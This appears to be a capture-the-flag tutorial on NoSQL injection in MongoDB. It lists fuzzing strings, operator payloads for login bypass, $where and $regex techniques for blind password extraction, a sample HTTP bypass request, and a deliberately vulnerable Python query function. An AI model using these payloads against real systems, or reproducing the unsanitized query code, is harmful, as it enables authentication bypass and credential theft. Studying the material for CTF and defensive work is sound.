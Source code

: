 ```yaml
---
title: "NoSQL Injection"
description: "Exploit unsanitized NoSQL queries in MongoDB or similar databases to bypass authentication or extract documents."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["nosql", "mongodb", "injection", "ctf"]
authors: ["CTF.Support Team"]
summary: "Understand how crafted JSON input can manipulate NoSQL queries, leading to authentication bypass or data retrieval."
aliases: ["/web/nosql-injection/"]
slug: "nosql-injection"
toc: true
---
```


## Introduction

NoSQL databases like MongoDB rely heavily on JSON objects, which can be manipulated by attackers if input is not sanitized.

If exploited, NoSQL Injection can allow attackers to:

- Bypass authentication or authorization checks.
- Extract or modify data from collections.
- Perform denial‑of‑service actions with heavy queries.
- Execute JavaScript on the database server (via `$where` or `mapReduce()` in MongoDB).

## Types of NoSQL Injection

| Type                   | Description                                                                                                          |
|------------------------|----------------------------------------------------------------------------------------------------------------------|
| **Syntax Injection**   | Breaks the query syntax to inject arbitrary logic. Similar to SQLi but varies between databases and query languages. |
| **Operator Injection** | Abuses built‑in query operators (`$ne`, `$in`, `$regex`, `$where`) to override or manipulate query conditions.       |

Most attacks target **MongoDB**, but the same principles apply to CouchDB, Redis, and other JSON‑based stores.

## Detecting Vulnerabilities

Try fuzzing each user‑controlled input with special characters to determine whether the application parses them within queries.

Example payload (for URL parameter):

```text
?param='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

Differences in server responses, errors, filtered output, or longer load time, suggest NoSQL parser interaction.

### Character Testing

Inject individual characters such as `'`, `"`, `\`, `;`, `{`, `}` to see which break the query string.

### Conditional Behavior Testing

Send boolean variants:

```text
?param=test'+%26%26+0+%26%26+'x

?param=test'+%26%26+1+%26%26+'x
```

Different responses confirm code evaluation.

## Syntax Injection Exploitation

Once control is confirmed, override existing conditions with always‑true statements:

```text
?param=test'||1||'
```

This becomes:

```js
this.param == 'fizzy' || '1'=='1'
```

You can also append a **null byte** (`%00`) to truncate remaining query parts:

```text
?param=test'%00
```

## Operator Injection Examples

For JSON requests:

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

Logs in as the first user (often `admin`).

Target a specific user:

```json
{"username":{"$in":["admin","administrator"]},"password":{"$ne":""}}
```

Use `$regex` to extract data:

```json
{"username":"admin","password":{"$regex":"^a"}}
```

## Data Extraction via Operators and JavaScript

If `$where` or `mapReduce()` is supported, execute JavaScript within queries:

```js
{"$where":"this.password[0] == 'a'"}
```

Iterate characters to rebuild credentials.

Check for digits using regex:

```js
{"$where":"this.password.match(/\\d/)"}
```

Blind extraction with `$regex`:

```js
{"password":{"$regex":"^a.*"}}
```

Timing‑based test:

```js
{"$where":"sleep(5000)"}
```

## Example (Python)

```python
from pymongo import MongoClient

def get_user(username):
    client = MongoClient('mongodb://localhost:27017/')
    db = client['users']
    query = {'username': username}
    return db.users.find(query)

username = input('Enter a username: ')
print(list(get_user(username)))
```

Injection:

```json
{"$ne": null}
```

Resulting query:

```json
{ "username": {"$ne": null} }
```

This bypasses user filtering and returns all results.

### Example: Bypassing Login Using $ne

```text
POST /login HTTP/1.1
Host: target.ctf
Content-Type: application/json

{
  "username":{"$ne":""},
  "password":{"$ne":""}
}
```

If both fields parse operators, the query becomes:

```js
db.users.find({ "username": { $ne: "" }, "password": { $ne: "" } })
```

and logs you in as the first user (often `admin`).

## Tips

- Input contexts to test: query filters, `$where` clauses, `$regex`, `$gt/$lt`.
- Use JSON-oriented payloads (`{"$ne": null}` or `{"$gt": ""}`).
- Escape or validate JSON structures before execution.
- In blind challenges, look for time-based payloads using heavy operations.
